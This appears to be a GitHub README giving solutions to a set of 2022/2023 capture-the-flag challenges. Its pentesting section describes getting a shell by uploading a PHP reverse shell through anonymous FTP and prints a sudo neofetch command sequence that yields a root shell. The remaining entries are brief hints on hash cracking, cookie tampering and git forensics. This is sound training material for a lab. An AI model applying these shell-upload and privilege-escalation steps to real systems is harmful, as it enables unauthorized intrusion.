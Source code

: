 # CTF_material

**CTF challenges prepared for the year 2022/2023** :space_invader:<br/><br/>
 
# Solutions

<img align="right" src="https://user-images.githubusercontent.com/35840617/171266140-a7f88018-c359-4ad1-955d-f96d54bfbdc1.png" width="300">
<br/>


## Pentesting

VirtualBox .ova file of the machine: https://drive.google.com/file/d/1XHEMLLruedvMY8lN_hyr0ykZWspJ9ug0/view?usp=sharing

- **5ud0 m3 (user):**

    Nmap tcp scan shows 3 services on 3 ports:
    ```
    21      FTP     vsftpd 3.0.3
    22      SSH   
    80      HTTP    NGINX 1.18.0 with PHP7.4
    ```
    A shell can be obtained by uploading a PHP reverse shell using ftp anonymous login (in /var/www/html/contact/) and sending a request to `http://IP/contact/[your_shell].php`
    <br/><br/>


- **5ud0 m3 (root):**

    The user `www-data` which you have a shell access to has sudo access (without password) on `/usr/bin/neofetch` which can be abused to obtain a root shell using the following commands:
    ```
    TF=$(mktemp)
    echo 'exec /bin/sh' >$TF
    sudo /usr/bin/neofetch --config $TF
    ```
    source: https://gtfobins.github.io/gtfobins/neofetch/#sudo
    <br/><br/>


## Misc
- **Git rekt:**

    Quality: 2/5
    
    level: very easy (repeated)

    Use `git log` and `git show` to reveal the redacted password and decrypt the zip file with it<br/><br/>

- **Magic:**

    Quality: 2/5
    
    level: easy (repeated)

    fix the file header `FF D8 FF E0`<br/><br/>
    
- **Brain:**

    Quality: 2/5
    
    level: easy (repeated)

    brainfuck. Could be identified with cipher identifier tools<br/><br/>
    
- **RubberDucky:**

    Quality: 2/5
    
    level: easy
    
    Read the ducky script and decode the base64 python script and read the flag<br/><br/> 

- **Jhin:**

    Quality: 2/5
    
    level: easy
    
    hint: `there is a cat that can defeat this hash`
    
    theme: 
    ```
    Jhin is a character from League of Legends lore. He is a meticulous criminal psychopath who 
    believesmurder is art. Using his gun as his paintbrush, Jhin createss works of artistic 
    brutality See https://universe.leagueoflegends.com/en_GB/story/champion/jhin/ 
    (this link is unrelated to the CTF). He was finally imprisoned by the Ionian forces 
    and they acquired his password protected safe which should contain clues about one of 
    the hardest murder cases in the history of the investigation department!. Ionian engineers 
    somehow managed to extract a hash of the password. Your task is to crack this password! 
    Jhin's long history in Ionia has made it clear that he is obsessed with the number 4 :) 
    and he always wears a mask.
    ```
    
    Crack an md5hash of a 4 characters long password `hashcat -m 0 hash.txt -a 3 ?a?a?a?a`. This is called mask attack<br/><br/>  

## Web
- **Greedy:**
   
   Quality: 2/5
   
   level: easy
   
   theme: 
    ```
    This greedy web admin hates it when people want to GET webpages from him. This time 
    he decided to block all requests (maybe not all!). Try to GIVE him and see what happens.
    ```

   Intercept http request in burpsuite. Replace `GET` verb with `GIVE` which is a custom http verb<br/><br/>

- **Cookie Monster:**
   
   Quality: 2/5
   
   level: easy

   Change cookie value from `Not_delicious` to `delicious` to pass<br/><br/>
    

## Forensics

- **Git desert:**

    Quality: 4/5
    
    level: medium

    Use `git log` to reveal commit history then `git checkout` to recover the deleted `flag.txt` file<br/><br/>


- **Meta:**

    Quality: 1/5
    
    level: very easy

    Exiftool<br/><br/>
   

- **Sun Emojis:**

    Quality: 3.5/5
    
    level: easy to medium
    
     the file is a rubberducky encoded payload and decode it using https://ducktoolkit.com<br/><br/>  
 - **pdfscripting**

    Quality: 2.5/5
    
    level: easy to medium
    
     the pdf includes an injected javascript code which you will compile and it will give you the flag<br/><br/>  
- **Phishme**

    Quality: 3.5/5
    
    level: easy to medium
    
    the email contains an X-Originating-IP header which is used to open a "malicious" website then you are asked to check if its malicious without opening it, using a website called virtustotal https://www.virustotal.com/ and the flag will be in the community section<br/><br/> 
 - **1-1 characters**

    Quality: 2/5
    
    level: easy to medium
    
    a pastebin link with a flag encoded in zero width character format, using an online converter will give you the flag <br/><br/>  
    ## Reverse Engineering

- **Tracer**

    Quality: 3/5
    
    level: medium

    An executable file which asks for an input which is the key, you can dissasemble the file using ghidra or cutter and find the key then enter it to get the flag<br/><br/>
